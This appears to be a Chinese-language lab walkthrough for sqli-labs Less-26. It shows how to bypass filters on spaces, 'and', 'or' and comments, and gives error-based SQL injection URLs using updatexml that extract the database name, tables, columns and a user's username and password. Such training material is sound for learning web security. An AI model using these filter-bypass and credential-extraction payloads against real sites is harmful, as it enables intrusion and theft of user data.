






# Less - 26

---

# 通关教程

---

## 1、判断闭合

---

直接查看该关卡的源码，如下

​

空格，or，and以及注释--和#都被过滤了，这里我们要进行替换

替换：如and可替换为&&，or可替换为||  
空格的话我们可以 url 绕过：%a0 || %0b 等等，过滤字符我们可以用 and || or 替代  
mysql空白符：%09; %0A; %0B; %0D; %20;

先输入

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=1'
```

​

根据错误显示判断闭合方式为’;%00，并且为字符型注入。这里因为空格过滤了，我们使用%a0代替空格

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=-1' || updatexml(1,concat(0x7e,database()),1) || '1'='1
```

​

---

## 3、查看数据表名

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=1' || updatexml(1, concat(0x7e, (SELECT (group_concat(table_name)) FROM (infoorrmation_schema.tables) WHERE (table_schema='security'))) ,1) || '1'='1
```

​

---

## 4、查看字段名

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=1'||updatexml(1,concat(1,(SELECT (group_concat(column_name)) FROM (infoorrmation_schema.columns) WHERE (table_schema='security' %26%26 table_name = 'users'))) ,1) || '1'='1
```

​

---

## 5、查看字段值

---

```bash
http://192.168.225.132/sqli-labs/Less-26/?id=-1' || updatexml(1,concat(0x0a,(SELECT(group_concat(concat_ws(0x3a,username,passwoorrd))) FROM (security.users) WHERE (id = 1) ))  ,1) || '1'='1
```

​

‍
